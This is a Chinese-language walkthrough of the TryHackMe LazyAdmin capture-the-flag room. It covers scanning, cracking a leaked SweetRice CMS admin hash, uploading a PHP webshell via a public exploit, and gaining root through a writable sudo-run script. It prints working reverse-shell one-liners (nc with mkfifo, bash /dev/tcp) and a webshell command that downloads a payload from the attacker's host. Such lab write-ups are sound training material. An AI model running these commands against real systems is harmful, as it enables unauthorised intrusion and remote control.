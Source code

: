 # LazyAdminFinal Writeup
> URL : https://tryhackme.com/room/lazyadmin

IP : 10.10.40.99

## Scan
- 根據套路，先掃 Port
    - `nmap -A 10.10.40.99`
    - ![](https://i.imgur.com/0Xc7KJW.png)
    - 發現有開 80 跟 22
- 觀察網頁
    - 80 port 是一個 Apaphe 在 Ubuntu 上的 Default page
    - ![](https://i.imgur.com/kSfBbQw.png)
- 掃路徑
    - `python3 dirsearch.py -u http://10.10.40.99`
    - 掃到一個 `/content`
    - http://10.10.40.99/content/
        - 上面寫說他是 `SweetRice CMS`
        - ![](https://i.imgur.com/Fx2sPrS.png)
- 根據 `/content` 繼續掃會找到
    - 裡面有一個 Change Log
    - http://10.10.40.99/content/changelog.txt
    - 裡面有寫到他的版本是 `1.5`
- 尋找 Exploit
    - 找到了適用的 Exploit，不過需要使用者帳號跟密碼
    - https://www.exploit-db.com/exploits/40716
- 繼續掃路徑
    - 找到一個 `mysql_backup`
        - http://10.10.40.99/content/inc/mysql_backup/
        - 裡面有一個備份的 SQL 檔案
        - 內部有一些看起來是 PHP 序列話的東西
            - `5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";`
                - ![](https://i.imgur.com/EAMeYsa.png)
                - 看的出來 
                    - `admin` : `manager`
                    - `passwd` : `42f749ade7f9e195bf475f37a44cafcb`
- 透過 Google 尋找
    - Sweet Rice CMS 的後台是 `/as`
    - http://10.10.40.99/content/as/
- 嘗試登入
    - 帳號 : `manager`
    - 密碼 : `42f749ade7f9e195bf475f37a44cafcb`
        - 登入失敗
        - 正常人也不太可能用這種東西作為密碼
        - 拿去 Google 後發現是 MD5
            - 可以透過這個網站解碼 https://md5.gromweb.com/?md5=42f749ade7f9e195bf475f37a44cafcb
            - ![](https://i.imgur.com/dD3gjq5.png)
            - 所以答案是 `Password123`
        - 登入成功
    - ![](https://i.imgur.com/0KYq7Vr.png)
##  Exploit
- 下載檔案
    - `wget https://www.exploit-db.com/download/40716 -O 40716.py`
- `python3 40716.py` 執行並輸入需要的資料
    - `10.10.40.99/content`
    - `manager`
    - `Password123`
    - `webshell.php5`
        - 這邊我嘗試了 `webshell.php` 但是失敗
        - 根據Exploit提示的改用 `webshell.php5` 就可以ㄌ
        - ![](https://i.imgur.com/rXuDNVF.png)
- 使用 Webshell
    - 可以成功連上
        - ![](https://i.imgur.com/jlR37Zn.png)
    - 改接 Reverse shell
        - `http://10.10.40.99/content/attachment/webshell.php5?A=wget%2010.13.21.55:8000/s%20-O%20/tmp/s`
        - 本地端執行 `nc -nlvp 7877`
        - 網址shell `bash /tmp/s`
        - 就順利接上ㄌ
            - ![](https://i.imgur.com/AtRVVea.png)
- 取得 Flag
    - ![](https://i.imgur.com/19Vfvm4.png)
## 準備提權
- 家目錄看到一組帳號密碼，先存下來
    - ![](https://i.imgur.com/cxcqYN8.png)
    - `rice:randompass`
- 透過 `sudo -l` 發現我們可以用 sudo 執行這一段 Perl
    - ![](https://i.imgur.com/SBhtfeX.png)
    - 而這一段 perl 會用 sh 呼叫 `/etc/copy.sh`
- 觀察 `ls -al /etc/copy.sh`
    - 可以發現我們有 Write 的權限
    - ![](https://i.imgur.com/c957GVn.png)
- 先把 `/etc/copy.sh` 備份一下以免搞壞
    - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f`
    - ![](https://i.imgur.com/1wXCkEG.png)
- 寫入我們的 Reverse shell
    - `echo "bash -c 'bash -i >& /dev/tcp/10.13.21.55/7878 0>&1'" > /etc/copy.sh`
- 監聽 Reverse shell
    - `nc -nvlp 7878`
- 執行 Reverse shell
    - `sudo /usr/bin/perl /home/itguy/backup.pl`
- 取得 Root
    - ![](https://i.imgur.com/Ud0s3aW.png)
- 取得 Root Flag
    - ![](https://i.imgur.com/bSd6ogT.png)

